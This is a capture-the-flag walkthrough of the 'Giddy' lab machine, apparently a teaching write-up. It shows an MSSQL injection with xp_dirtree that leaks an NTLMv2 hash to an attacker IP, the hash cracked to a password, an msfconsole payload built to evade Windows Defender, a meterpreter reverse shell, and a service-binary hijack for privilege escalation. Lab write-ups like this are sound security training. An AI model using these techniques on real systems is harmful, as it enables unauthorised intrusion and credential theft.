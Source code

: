 # Giddy

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.96.140 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-08 10:00 EDT
Nmap scan report for 10.129.96.140
Host is up (0.0083s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
443/tcp  open  https
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

Both RDP and WinRM are accessible on this machine, which is new.&#x20;

### SQLI --> Stacy Shell

Port 80 just shows a cute image:

<figure><img src="../../../.gitbook/assets/image (2466).png" alt=""><figcaption></figcaption></figure>

I ran a `gobuster` scan on this, and found 2 directories:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt -u http://10.129.96.140 -t 100 
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.96.140
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/05/08 10:02:08 Starting gobuster in directory enumeration mode
===============================================================
/remote               (Status: 302) [Size: 157] [--> /Remote/default.aspx?ReturnUrl=%2fremote]
/mvc                  (Status: 301) [Size: 148] [--> http://10.129.96.140/mvc/]
```

Visiting it reveals a Windows Powershell Web Access page:

<figure><img src="../../../.gitbook/assets/image (1404).png" alt=""><figcaption></figcaption></figure>

The MVC site reveals some online store:

<figure><img src="../../../.gitbook/assets/image (852).png" alt=""><figcaption></figcaption></figure>

When products are viewed, it loads this URL:

```
http://10.129.96.140/mvc/Product.aspx?ProductSubCategoryId=18
```

If we replace the number with a `'` character, a lot of SQL errors are returned:

<figure><img src="../../../.gitbook/assets/image (4084).png" alt=""><figcaption></figcaption></figure>

This is vulnerable to SQL injection. Googling any of the errors here reveals that this is MSSQL, which we can actually get RCE from through `xp_cmdshell`.&#x20;

```sql
2; EXEC master ..xp_dirtree '\\10.10.14.13\share'; --
```

We can start `responder` and intercept the response by sending the above command:

<figure><img src="../../../.gitbook/assets/image (1016).png" alt=""><figcaption></figcaption></figure>

Then we can crack this hash easily using `john`:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 3 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
xNnWo6272k7x     (Stacy)     
1g 0:00:00:00 DONE (2023-05-08 10:10) 1.020g/s 2744Kp/s 2744Kc/s 2744KC/s xabat..x6forever
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

By right, this machine came our before `evil-winrm`, so the intentional route is to use the Remote Powershell Web Access to download and execute a reverse shell. I did it the `evil-winrm` way.

<figure><img src="../../../.gitbook/assets/image (2683).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Unifivideo

Within the Documents directory, there's one folder present:

```
*Evil-WinRM* PS C:\Users\Stacy\documents> dir


    Directory: C:\Users\Stacy\documents


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        6/17/2018   9:36 AM              6 unifivideo

*Evil-WinRM* PS C:\Users\Stacy\documents> type unifivideo
stop
```

Also, we can enumerate and see that Windows Defender is enabled for this machine, meaning any payload we use has to be obfuscated and encoded.&#x20;

```
*Evil-WinRM* PS C:\Users\Stacy\documents> cmd.exe /c "sc query windefend"

SERVICE_NAME: windefend
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 4  RUNNING
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```

So we cannot run WinPEAS on this machine too. I decided to check if the Powershell history files were present still, because it could contain some good information, and it did exist:

```
*Evil-WinRM* PS C:\Users\Stacy> type AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
net stop unifivideoservice
$ExecutionContext.SessionState.LanguageMode
Stop-Service -Name Unifivideoservice -Force
Get-Service -Name Unifivideoservice
whoami
Get-Service -ServiceName UniFiVideoService
```

Now we can exploit this.&#x20;

{% embed url="https://www.exploit-db.com/exploits/43390" %}

We need to create a reverse shell file that would bypass Windows Defender. I was a bit lazy, so I used `msfconsole` to generate this:

```
use evasion/windows/windows_defender_exe
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
[+] OFVDGEyW.exe stored at /home/kali/.msf4/local/OFVDGEyW.exe
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost tun0
set lport 4444
run
```

Afterwards, we just need to transfer this reverse shell over and name it as `taskkill.exe` within `C:\programdata\unifi-video` and then run the `stop-service -name Unifivideoservice` command.

<figure><img src="../../../.gitbook/assets/image (2542).png" alt=""><figcaption></figcaption></figure>

Then, we would get a meterpreter shell on the listener:

<figure><img src="../../../.gitbook/assets/image (850).png" alt=""><figcaption></figcaption></figure>

Rooted!
